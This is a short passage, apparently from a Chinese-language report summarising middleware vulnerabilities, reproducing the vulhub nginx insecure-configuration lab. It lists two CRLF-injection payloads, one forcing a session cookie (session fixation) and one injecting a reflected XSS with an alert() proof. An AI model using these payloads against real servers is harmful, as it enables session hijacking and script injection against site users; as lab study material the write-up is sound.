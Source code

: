 **复现**

- 路径：`vulhub-master/nginx/insecure-configuration`

  ![3-12](中间件漏洞总结报告.assets/3-12.png)
  
- 会话固定

  ```
  /%0aSet-cookie:JSPSESSID%3D1024
  ```

  ![3-13](中间件漏洞总结报告.assets/3-13.png)

- 反射型XSS

  ```
  /%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)> 
  ```

